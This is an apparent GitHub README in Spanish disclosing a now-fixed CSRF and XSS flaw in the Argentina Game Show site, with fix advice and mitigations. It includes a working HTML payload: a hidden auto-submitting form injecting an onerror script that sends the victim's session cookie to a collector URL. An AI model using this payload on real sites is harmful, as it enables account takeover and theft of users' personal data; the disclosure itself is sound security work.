 # Update
La vulnerabilidad fue resuelta, pusieron `SameSite` en `Lax`.

# AGS-CSRF-XSS POC

La pagina de la AGS es vulnerable a CSRF y XSS, haciendo que un atacante pueda conseguir acceso total a la cuenta de alguien convenciendolo de que abra un link malicioso. La info que puede conseguir es la siguiente: nombre completo, email, fecha de nacimiento, dni, entradas al evento y hash MD5 de la contraseña que se puede llegar a crackear.

Intenté reportarles el problema pero decidieron ignorarlo porque su "entendimiento básico de cyberseguridad es no abrir links randoms". Lo que es verdad pero no suficiente, es irrespondable de la parte de ellos dejar a sus usuarios expuestos, en mi opinion.

## Tabla de contenidos
- [Tabla de contenidos](#tabla-de-contenidos)
- [Vulnerabilidad](#vulnerabilidad)
- [Fix](#fix)
- [Mitigacion](#mitigacion)
- [POC](#poc)

## Vulnerabilidad
El form para cambiar la información del usuario (/mis-datos) no tiene protección contra CSRF, la cookie PHPSSESSID tiene el flag `SameSite` en `None` por lo que se agrega automaticamente al hacer el submit sin hacer ningun chequeo del origen.

Uno puede desde otra pagina web, hacer un form con los datos que quiere cambiar y hacer que se envíe solo, el usuario no se dará cuenta que está cambiando su información. Al hacer el cambio, el usuario es redirigido a una pagina donde se muestran los nuevos datos.

El servidor no sanitiza correctamente los datos que se le envian, y la forma en la los muestra es vulnerable a XSS, se puede inyectar codigo en cualquiera de los campos. (filtra algunos caracteres pero no de forma correcta)

Este es el codigo que se puede usar para explotarlo:

```html
<body>
    <form name="myForm" id="myForm" method="POST" style="display: none;" action="https://app.argentinagameshow.com/ajax/table_edit.php?notab=1&tid=22&ftid=&rid=&sdb=0&id=&tab=undefined">
        <!-- redirige a nuestro servidor con las cookies en la url -->
        <input type="text" name="22_98" value="<img src='' onerror=window.location.href=`http://localhost:8888/info?${document.cookie}`>">
        <input type="text" name="action" value="edit">
        <input type="submit" value="Submit">
    </form>

    <script>
        document.getElementById("myForm").submit();
    </script>
</body>
```

## Fix
Hay dos formas de solucionar este problema, la primera es agregar un token CSRF al form que esté linkeado con la sesion o el usuario, y verificar que el token sea correcto del lado del servidor antes de hacer el cambio. 

La segunda es agregar el flag `SameSite` a la cookie PHPSSESSID, y ponerlo en `Lax` o `Strict`, esto hará que el navegador no envie la cookie al servidor si el origen no es el mismo que el del servidor.

Este post de [Porswigger](https://portswigger.net/web-security/csrf/preventing) explica mas en detalle como solucionar problemas relaciondos a CSRF, que ventajas y desventajas tiene cada una de las soluciones.

## Mitigación
Mientras los de AGS no arreglen este problema, forma de mitigar este problema que tenemos por ahora es cerrar sesion en la pagina de la AGS y usar unicamente la APP de telefono. La app corre en un navegador propio y los demas navegadores no tienen acceso a sus cookies. **Y no hacer click en links que no sean de confianza.**

## POC
Este repo tiene incluido un POC, para correrlo tienen que tener instalado node y typescript. instalan las dependencias con `npm i` y lo ejecutan con `npm run dev`. Cuando entren a `http://localhost:8888` se va a redirigir un par de veces y les va a mostrar la info de su cuenta.
